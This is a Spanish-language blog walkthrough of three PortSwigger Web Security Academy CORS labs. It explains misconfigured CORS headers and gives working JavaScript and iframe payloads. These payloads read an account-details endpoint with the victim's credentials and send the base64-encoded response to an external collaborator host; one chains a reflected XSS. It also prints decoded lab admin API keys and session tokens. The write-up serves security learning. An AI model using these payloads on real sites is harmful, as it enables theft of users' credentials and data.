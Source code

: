 ```yaml
---
layout: single
title: CORS - PortSwigger
excerpt: "All Cross-origin resource sharing (CORS) labs of PortSwigger."
date: 2025-08-14
classes: wide
header:
  teaser: /img2/images/portswigger.png
  teaser_home_page: true
  icon: /img2/images/burp.jpg
categories:
  - portswigger
  - Web
tags:
  - Burpsuite
  - CORS
---
```



## Tipos de errores CORS

- Access-Control-Allow-Credentials

```
Access-Control-Allow-Credentials: true
```

> Permite usar las credenciales desde una petición siempre y cuando lo permita el Access-Control-Allow-Origin.

- Access-Control-Allow-Origin

```
Access-Control-Allow-Origin: https://test.com
```

> Permite cualquier origen * .

```
Access-Control-Allow-Origin: null
```

> Permite únicamente origenes "especiales" como peticiones dentro de un "iframe" o wrappers como file://.

```
Access-Control-Allow-Origin: https://test.domain.com
```

> Permite únicamente subdominios.

## JavaScript TIPS

- Mandar petición con credenciales

```javascript
req.withCredentials = true;  // Añadir antes del req.open()
```

- Ejecutar función después de la petición

```javascript
req.onload= sendAPI;

function sendAPI() {
  location="https://57aizgseziang09l8ylip2971y7pvfj4.oastify.com/?response="+btoa(this.responseText);
};
```

- Enviar una petición desde 'null'

```html
<iframe sandbox="allow-scripts" srcdoc="<script>
var req = new XMLHttpRequest();
req.onload= sendAPI;
req.withCredentials = true;
req.open('GET','https://0aae0000041193f2805a03aa006e00f9.web-security-academy.net/accountDetails',true);
req.send();
function sendAPI() {
  location='https://mg6z8x1v8zj4phi2hfuzyjioafgf47sw.oastify.com?api='+btoa(req.responseText);
};
</script>"</iframe>
```

## CORS con reflexión básica del origen || CORS vulnerability with basic origin reflection

![](/img2/Pasted%20image%2020250813143211.png)

> Vemos que la cabecera de respuesta 'Access-Control-Allow-Credentials' está en true, esto nos permite poder enviar peticiones con las credenciales aunque no sea del mismo origen.

![](/img2/Pasted%20image%2020250813143646.png)

> Para que podamos explotar el 'Access-Control-Allow-Credentials' es necesario que el 'Access-Control-Allow-Origin' permita otros origenes fuera del suyo propio.

![](/img2/Pasted%20image%2020250813145554.png)

![](/img2/Pasted%20image%2020250813145625.png)

```bash
❯ echo "ewogICJ1c2VybmFtZSI6ICJhZG1pbmlzdHJhdG9yIiwKICAiZW1haWwiOiAiIiwKICAiYXBpa2V5IjogIkZuWlE2VnFSZmJKcmtvOWFXOUJxZmJDNVNKR2xzZkpTIiwKICAic2Vzc2lvbnMiOiBbCiAgICAiZHp5UlE1Wkh0b2hyMVdSbW9aajFWanNUU2xCZnI3N3UiCiAgXQp9" | base64 -d | jq
```

```json
{
  "username": "administrator",
  "email": "",
  "apikey": "FnZQ6VqRfbJrko9aW9BqfbC5SJGlsfJS",
  "sessions": [
    "dzyRQ5ZHtohr1WRmoZj1VjsTSlBfr77u"
  ]
}
```

- Injection

```html
<script>

var req = new XMLHttpRequest();

req.onload= sendAPI;
req.withCredentials = true;
req.open('GET','https://0a6d00fa047fb7e3804f49e10058008a.web-security-academy.net/accountDetails/');
req.send();

function sendAPI() {
  location="https://57aizgseziang09l8ylip2971y7pvfj4.oastify.com/?response="+btoa(this.responseText);
};

</script>
```

## CORS con origen null marcado como confiable || CORS vulnerability with trusted null origin

![](/img2/Pasted%20image%2020250813161352.png)

> Vemos que igual que antes la cabecera 'Access-Control-Allow-Credentials' está en true, sin embargo, al poner un origen no vemos la cabecera 'Access-Control-Allow-Origin'.

![](/img2/Pasted%20image%2020250813161802.png)

> Al poner el origen como 'null' se refleja en la cabecera de respuesta 'Access-Control-Allow-Origin'.

![](/img2/Pasted%20image%2020250813161914.png)

> Para enviar una petición desde un origen 'null', podemos ejecutar el script dentro de un 'iframe'.

![](/img2/Pasted%20image%2020250813161223.png)

```bash
❯ echo "ewogICJ1c2VybmFtZSI6ICJhZG1pbmlzdHJhdG9yIiwKICAiZW1haWwiOiAiIiwKICAiYXBpa2V5IjogIlNyRkFuTmFCTm1EcHVLVEJOSUFKOUdGeWxyY1BPMVoyIiwKICAic2Vzc2lvbnMiOiBbCiAgICAiNzJoOXdabU03MUVCckVVMUpBY0FxNVpHR05VSFBhQTEiCiAgXQp9" | base64 -d | jq
```

```json
{
  "username": "administrator",
  "email": "",
  "apikey": "SrFAnNaBNmDpuKTBNIAJ9GFylrcPO1Z2",
  "sessions": [
    "72h9wZmM71EBrEU1JAcAq5ZGGNUHPaA1"
  ]
}
```

- Injection

```html
<iframe sandbox="allow-scripts" srcdoc="<script>
var req = new XMLHttpRequest();
req.onload= sendAPI;
req.withCredentials = true;
req.open('GET','https://0aae0000041193f2805a03aa006e00f9.web-security-academy.net/accountDetails',true);
req.send();
function sendAPI() {
  location='https://mg6z8x1v8zj4phi2hfuzyjioafgf47sw.oastify.com?api='+btoa(req.responseText);
};
</script>"</iframe>
```

## CORS con protocolos inseguros confiables || ## CORS vulnerability with trusted insecure protocols

![](/img2/Pasted%20image%2020250814144115.png)

> Nos encontramos con el mismo escenario de antes, sin embargo, no permite el origen 'null', pero si permite cualquier subdominio del propio servidor.

![](/img2/Pasted%20image%2020250814152027.png)

![](/img2/Pasted%20image%2020250814152134.png)

![](/img2/Pasted%20image%2020250814152226.png)

> Vemos que al usar la función de 'Check stock' se envía una petición al subdominio 'stock', en el cual podemos explotar un XSS reflejado.

![](/img2/Pasted%20image%2020250814143939.png)

> Para explotar la configuración del CORS en el endpoint '/accountDetails' insertamos el siguiente script dentro del XSS:

```html
<script>
var req = new XMLHttpRequest();

req.onload=sendAPI;
req.withCredentials = true;
req.open('GET','https://0ac0005f0392066180c4c11800e900fd.web-security-academy.net/accountDetails',true);
req.send();

function sendAPI(){
  location='https://jbyoodm8q2sscouft8qeqrax3o9hxalz.oastify.com?api='+btoa(req.responseText);
};
</script>
```

![](/img2/Pasted%20image%2020250814143739.png)

```bash
❯ echo -n "ewogICJ1c2VybmFtZSI6ICJhZG1pbmlzdHJhdG9yIiwKICAiZW1haWwiOiAiIiwKICAiYXBpa2V5IjogIkI2YmZZVU1OZmtZekhIV3hXTllLc3VZOEJEamF1c1BBIiwKICAic2Vzc2lvbnMiOiBbCiAgICAiblVOZW5yU2pNT253a0ViUDlWM2o2b2JHZ0tsRU1NN0siCiAgXQp9" | base64 -d | jq
```

```json
{
  "username": "administrator",
  "email": "",
  "apikey": "B6bfYUMNfkYzHHWxWNYKsuY8BDjausPA",
  "sessions": [
    "nUNenrSjMOnwkEbP9V3j6obGgKlEMM7K"
  ]
}
```

- Injection

```html
<script>
  location="http://stock.0ac0005f0392066180c4c11800e900fd.web-security-academy.net/?productId=%3cscript>var req = new XMLHttpRequest();req.onload=sendAPI;req.withCredentials = true;req.open('GET','https://0ac0005f0392066180c4c11800e900fd.web-security-academy.net/accountDetails',true);req.send();function sendAPI(){  location='https://jbyoodm8q2sscouft8qeqrax3o9hxalz.oastify.com?api='%2Bbtoa(req.responseText);};%3c/script>&storeId=5"
</script>
```